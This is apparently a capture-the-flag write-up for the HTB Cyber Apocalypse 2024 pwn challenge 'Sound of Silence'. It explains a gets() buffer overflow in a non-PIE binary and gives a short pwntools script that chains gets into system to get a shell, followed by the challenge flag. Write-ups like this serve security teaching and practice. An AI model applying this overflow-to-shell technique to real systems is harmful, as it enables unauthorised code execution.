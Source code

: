 ```yaml
---
linkTitle: Sound of Silence
title: Pwn - Sound of Silence
type: docs
---
```


* Difficulty : Medium
* Description : Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!  
* Challenge Files : [pwn_sound_of_silence.zip](https://github.com/Parth-Badgujar/Parth-Badgujar.github.io/raw/main/content/ctf-writeups/HTB%20Cyber%20Apocalypse%202024/files/pwn_sound_of_silence.zip)

## Initial Recon 

As you run the binary, it clears the shell and asks for some input, thats it 
```
~The Sound of Silence is mesmerising~

>> some input 
``` 
And these are the protections of the binary : 
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
``` 
* No `canary` and no `PIE`, definitely some overflow involved
## Reversing 

Here is the decompiled `main` function by IDA :
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[32]; // [rsp+0h] [rbp-20h] BYREF

  system("clear && echo -n '~The Sound of Silence is mesmerising~\n\n>> '");
  return gets(v4, argv);
}
```

* The program is simple, it clears the terminal, echos some statement and call `gets` on a buffer of 32 bytes 

## Exploit 

* Since `PIE` is disabled we can overflow and ROP to call any of the function (`gets` or `system`)
* In one of the past CTFs I used this trick of calling `gets` after ROP and passing the input to the next function in the ROP chain and this was supposed to be done 
* I'll go in more detail about this trick 

* As you return into `gets` function after buffer overflow this is the current state of the registers 

![ ](image-4.png)  


* If you look closely, the value in `rdi` register points to a writable section of libc, so if we execute `gets` in this state, the input will be stored on that address in libc 
* After the `gets` function is completed the value in `rdi` remains the same and `rip` will jump to next value on the stack 
* So if we chain the input like :

```
<junk bytes> + <address of gets> + <address of system>
```

* We will be able to call `system` function on our input 
* If you know this trick, you can solve this challenge without even debugging 

* This is how to state of the program looks after taking the input from `gets` 

![alt text](image-6.png)  

Here is the exploit script : 
```python
from pwn import * 

elf = context.binary = ELF('./sound_of_silence')

p = elf.process()

p.sendline(cyclic(40) + p64(elf.sym['gets'])  + p64(elf.sym['system']))

p.interactive()

#$ /bin0sh
```

---  

#### Flag : `HTB{n0_n33d_4_l34k5_wh3n_u_h4v3_5y5t3m}`








